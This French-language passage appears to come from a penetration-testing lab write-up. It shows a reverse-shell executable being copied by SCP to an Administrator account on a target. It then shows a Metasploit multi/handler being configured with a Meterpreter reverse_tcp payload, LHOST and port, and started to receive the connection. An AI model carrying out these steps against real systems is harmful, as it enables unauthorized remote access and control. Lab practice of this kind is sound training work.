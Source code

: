 
#### Transfert du payload

**Transfert via SCP :**

```bash
┌──(omnimessie㉿omnimessie)-[~]
└─$ scp shell.exe Administrator@10.10.52.67:shell.exe
Administrator@10.10.52.67's password:
shell.exe                                                100%   72KB   1.2MB/s   00:00
```

---

#### Configuration du handler Metasploit

**Démarrage du handler multi/handler :**

```bash
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp

msf6 exploit(multi/handler) > show options

Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address
   LPORT  4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target
```

**Configuration du payload :**

```bash
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp

msf6 exploit(multi/handler) > set LHOST 10.10.43.133
LHOST => 10.10.43.133

msf6 exploit(multi/handler) > set LPORT 4444
LPORT => 4444

msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.43.133:4444
```

---

